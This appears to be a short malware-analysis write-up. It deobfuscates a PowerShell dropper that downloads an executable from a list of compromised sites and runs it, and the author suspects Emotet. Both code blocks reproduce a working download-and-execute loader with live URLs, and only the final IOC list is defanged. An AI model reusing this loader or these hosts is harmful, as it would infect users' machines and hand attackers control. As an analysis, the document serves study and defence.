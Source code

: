 The payload:

```python
$Pha9n8s=('Ql8o_fh'))
.('new-item') $ENV:UseRPROFIlE\Wg__3MD\vPny24V\ -itemtype DIRECtOrY
[Net.ServicePointManager]::"secuRItYprOtoCol" = ('tls12, tls11, tls')
$Lnc8cly = (('Zc1o6l'))
$Havkcad=('R31m6l2'))
$Pe1ern2=$env:userprofile+((('KbQWg__3mdKbQVpny24vKbQ')  -RePLACe  ('KbQ'),[cHar]92)+$Lnc8cly+(('.exe')
$Zz6nqp1=('Sinyych'))
$E72wbda=.('new-object') nET.webcLieNT
$Mnvn2cb=(('http://prestokitchens.com/recurringo/fRe/*http://www.djraisor.com/error/w7G3/*http://dakarbuzz.net/css/CyKg/*https://wildecapitalmgmt.net/wp-content/j6/*http://californiaasa.com/californiaasa.com/8t/*http://viralbrown.com/e3c0ngfjc/N/*http://kharazmischl.com/w/')."sPliT"([char]42)
$Gq184xp=('N3jwk4m'))
foreach($Iyzvv5k in $Mnvn2cb){try{$E72wbda."dOwNLOadfIlE"($Iyzvv5k, $Pe1ern2)
$G52za0l=('Hpv6yp7'))
If ((&('Get-Item') $Pe1ern2)."LeNgTH" -ge 31777) {&('Invoke-Item')($Pe1ern2)
$Gcpv6rm=('T5zgd77'))
break
$Rp6msrl=(('Wwncvrd')}}catch{}}$Rcb29dp=('Kqkexzh')
```

Let clean the code more

```python
.('new-item') $ENV:UseRPROFIlE\Wg__3MD\vPny24V\ -itemtype DIRECtOrY
[Net.ServicePointManager]::"secuRItYprOtoCol" = ('tls12, tls11, tls')
$Pe1ern2=$env:userprofile+(('KbQWg__3mdKbQVpny24vKbQ')  -RePLACe  ('KbQ'),"\\") + 'Zc1o6l'+(('.exe')
$E72wbda=.('new-object') nET.webcLieNT
$Mnvn2cb=(('http://prestokitchens.com/recurringo/fRe/*http://www.djraisor.com/error/w7G3/*http://dakarbuzz.net/css/CyKg/*https://wildecapitalmgmt.net/wp-content/j6/*http://californiaasa.com/californiaasa.com/8t/*http://viralbrown.com/e3c0ngfjc/N/*http://kharazmischl.com/w/')."sPliT"([char]42)
foreach($Iyzvv5k in $Mnvn2cb){try{$E72wbda."dOwNLOadfIlE"($Iyzvv5k, $Pe1ern2)
If ((&('Get-Item') $Pe1ern2)."LeNgTH" -ge 31777) {&('Invoke-Item')($Pe1ern2)
break
$Rp6msrl=(('Wwncvrd')}}catch{}}$Rcb29dp=('Kqkexzh')
```

It initializes a .NET web client using tls12, tls11, tls security protocols, loop through url list try to download if size ≥ 31777 bytes and save to exe file. Then invoke (execute) this file.

> This downloaded file mabe Emotet trojan, which will then reach out the C2 infrastructure and give the attacker control over the system using the variety of features that come with the tool.
> 

The url list

```
hxxp[://]prestokitchens[.]com/recurringo/fRe/
hxxp[://]www[.]djraisor[.]com/error/w7G3/
hxxp[://]dakarbuzz[.]net/css/CyKg/
hxxps[://]wildecapitalmgmt[.]net/wp-content/j6/
hxxp[://]californiaasa[.]com/californiaasa[.]com/8t/
hxxp[://]viralbrown[.]com/e3c0ngfjc/N/
hxxp[://]kharazmischl[.]com/w/
```